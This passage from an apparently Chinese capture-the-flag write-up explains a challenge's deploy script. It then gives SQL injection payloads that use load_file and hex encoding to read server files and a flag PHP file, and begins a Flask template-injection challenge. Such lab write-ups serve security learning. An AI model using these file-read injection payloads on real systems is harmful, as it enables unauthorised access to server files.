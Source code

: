 ```
cd /tmp/ unzip html.zip rm -f html.zip cp -r html /var/www/ cd /var/www/html/ rm -f .DS_Store service apache2 start
```

首先是cd到了/tmp/目录，然后unzip了html.zip，然后又把这个.zip文件删除了。然后又把解压得到的html这个文件夹复制到了/var/www/下面，然后又cd到了/var/www/html下，将.DS_Store给删除，然后开启apache2服务。

(这里删除的是/var/www/html下的.DS_Store，而/tmp/html下的.DS_Store没有被删除)



3.读取 /tmp/html下的.DS_Store 。payload: `', content=(select load_file('/tmp/html/.DS_Store')),/*`

这里的话，又是一个知识点，按照上面这个payload我们发现是没有回显的，这个时候我们需要进行hex编码



4. payload：`', content=(select hex(load_file('/tmp/html/.DS_Store'))),/*`

![](https://img.npfs06.top/20210413232854.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

发现文件 flag_8946e1ff1ee3e40f.php



5.这里又是一个坑，我们要读取这个文件不能在/tmp目录下，而是要回到/var/www/html

最终payload :`', content=(select (load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*`

最后一个坑，查看源码获得flag







## [CISCN2019 华东南赛区]Double Secret

知识点：

1. flask模板注入
2. RC4 加解密
3. PIN码



解法一：

> Welcome To Find Secret

访问 http://url/secret

> Tell me your secret.I will encrypt it so others can't see

访问 http://url/secret/?secret=

输个大一点的secret值时，发现报错  比如?secret=11111

这个页面是flask应用开启了调试模式后运行错误的表现



![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu10.jpg)
